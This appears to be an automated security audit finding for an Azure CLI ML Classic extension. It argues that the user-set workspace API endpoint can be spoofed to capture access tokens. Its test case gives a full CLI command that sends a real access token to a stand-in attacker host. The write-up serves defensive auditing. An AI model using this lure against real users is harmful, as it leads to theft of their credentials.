 ### 1. Man-in-the-Middle Vulnerability via Workspace API Endpoint Spoofing

- Description:
    1. The Azure CLI extension for ML Classic assessment allows users to specify the workspace API endpoint using the `--workspace-api-endpoint` or `-wapi` parameter.
    2. An attacker could potentially trick a user into using a malicious API endpoint URL instead of the legitimate Azure ML Classic API endpoint.
    3. If a user is misled into using a malicious endpoint, all subsequent API requests made by the CLI extension, including requests containing the user's workspace access token and workspace data, will be directed to the attacker-controlled endpoint.
    4. The attacker can then intercept and log these requests, potentially gaining unauthorized access to the user's Azure ML Classic workspace access token and sensitive information about their ML Classic assets.

- Impact:
    - **High**: If exploited, this vulnerability could allow an attacker to steal Azure ML Classic workspace access tokens and sensitive information about a user's Machine Learning Studio (classic) assets. This could lead to unauthorized access to the user's Azure ML Classic environment, potential data breaches, and unauthorized modifications or deletion of ML assets.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
    - None: The tool currently accepts the workspace API endpoint as a user-provided parameter without any validation or warning about potential security risks.

- Missing Mitigations:
    - **Input Validation and Warning**: The tool should validate the format of the provided workspace API endpoint to ensure it resembles a legitimate Azure ML API endpoint. Additionally, a security warning should be displayed to the user when a custom workspace API endpoint is provided, advising them to only use trusted endpoints and be cautious of potential spoofing attacks.
    - **Documentation Enhancement**: The documentation should explicitly mention the security implications of using a custom workspace API endpoint and advise users against using untrusted or unknown endpoints.

- Preconditions:
    - The attacker needs to trick the user into running the Azure CLI extension with a malicious `--workspace-api-endpoint` parameter. This could be achieved through social engineering, phishing, or by compromising a system where the user is likely to copy commands from.
    - The user must have an Azure account with permissions to access ML Classic workspaces and be willing to use the provided Azure CLI extension.

- Source Code Analysis:
    1. **File: `/code/automated_assessment/azext_mlclassicextension/api_client.py`**:
        - The `APIClient` class constructor takes `api_endpoint` as an argument and stores it in `self.__api_url`.
        - The `__send_get_req` and `__send_management_get_req` methods use `urljoin(self.__api_url, api_path)` to construct the full API URL. This means the base URL is directly taken from the `api_endpoint` provided during `APIClient` instantiation.

        ```python
        class APIClient(object):
            def __init__(self, location, api_endpoint, access_token, trace=False):
                # ...
                self.__api_url = api_endpoint
                # ...
            def __send_get_req(self, api_path):
                url = urljoin(self.__api_url, api_path) # API URL is constructed using user-provided api_endpoint
                # ...
                response = requests.get(url=url, headers=self.__get_headers())
                # ...
        ```

    2. **File: `/code/automated_assessment/azext_mlclassicextension/workspace.py`**:
        - The `MLClassicWorkspace` class constructor takes `api_endpoint` as an argument and passes it directly to the `APIClient` constructor.

        ```python
        class MLClassicWorkspace(object):
            def __init__(self, workspace_id, azure_location, api_endpoint, access_token, trace=False):
                # ...
                self.__api_endpoint = api_endpoint
                # ...
                self.__api = APIClient(self.__ml_classic_location, api_endpoint, access_token, trace=trace) # api_endpoint passed to APIClient
                # ...
        ```

    3. **File: `/code/automated_assessment/azext_mlclassicextension/__init__.py`**:
        - The CLI command functions like `show_workspace` take `workspace_api_endpoint` as an argument and pass it to the `MLClassicWorkspace` constructor.

        ```python
        def show_workspace(workspace_id, workspace_location, workspace_api_endpoint,  workspace_access_token):
            ws = MLClassicWorkspace(workspace_id, workspace_location, workspace_api_endpoint,  workspace_access_token) # api_endpoint passed to MLClassicWorkspace
            return ws.get_details()
        ```

    4. **File: `/code/automated_assessment/azext_mlclassicextension/__init__.py` & `/code/automated_assessment/azext_mlclassicextension/commands.py` (inferred, as commands.py is typical for az extensions)**:
        - The `MLClassicCommandsLoader.load_arguments` function defines `workspace_api_endpoint` as a command argument, allowing users to specify it when running the CLI command.

        ```python
        class MLClassicCommandsLoader(AzCommandsLoader):
            # ...
            def load_arguments(self, _):
                with self.argument_context('mlclassic workspace') as c:
                    c.argument('workspace_api_endpoint', options_list=['-wapi', '--workspace-api-endpoint'], type=str, help='The API endpoint servicing the Azure ML Classic workspace.') # User can provide workspace_api_endpoint via CLI
                # ...
        ```

    **Visualization:**

    ```
    User (CLI) -->  az mlclassic workspace show --wapi <malicious_endpoint> ...
                      |
                      V
    CLI Extension (__init__.py) --> show_workspace(workspace_api_endpoint=<malicious_endpoint>, ...)
                                        |
                                        V
    MLClassicWorkspace (workspace.py) --> APIClient(api_endpoint=<malicious_endpoint>, ...)
                                              |
                                              V
    APIClient (api_client.py) --------> requests.get(url=urljoin(<malicious_endpoint>, api_path), ...)
                                                      |
                                                      V
    Attacker Server (malicious_endpoint) <-- Receives API request with Access Token and Workspace Data
    ```

- Security Test Case:
    1. **Setup Attacker Server:** Create a simple HTTP server (e.g., using Python `http.server`) that listens on a public IP address and logs all incoming requests, including headers and request paths. Let's say the attacker server is running on `http://attacker.example.com:8080`.
    2. **Prepare Malicious API Endpoint URL:** Construct a malicious API endpoint URL pointing to the attacker server. For example: `http://attacker.example.com:8080/api/`.  Note: `/api/` is appended to mimic the expected path structure.
    3. **Run Azure CLI Extension with Malicious Endpoint:** Execute an Azure CLI command from the `mlclassic` extension, providing the malicious API endpoint URL using the `--workspace-api-endpoint` parameter. For example:
       ```bash
       az mlclassic workspace show --workspace-id <your_workspace_id> --workspace-location <your_workspace_location> --workspace-api-endpoint http://attacker.example.com:8080/api/ --workspace-access-token <your_workspace_access_token>
       ```
       Replace `<your_workspace_id>`, `<your_workspace_location>`, and `<your_workspace_access_token>` with valid values for your Azure ML Classic workspace.
    4. **Inspect Attacker Server Logs:** Check the logs of the attacker's HTTP server. If the vulnerability is present, you should see logs of HTTP requests received by the attacker server. These requests will include headers, potentially containing the `x-ms-metaanalytics-authorizationtoken` (access token) and the paths of API calls made by the CLI extension.
    5. **Verify Data Interception:** Analyze the intercepted requests to confirm that sensitive information, such as the access token and details about the Azure ML Classic workspace, is being sent to the attacker-controlled endpoint.

This test case demonstrates that by providing a malicious `--workspace-api-endpoint`, an attacker can intercept API requests and potentially steal sensitive information, confirming the Man-in-the-Middle vulnerability.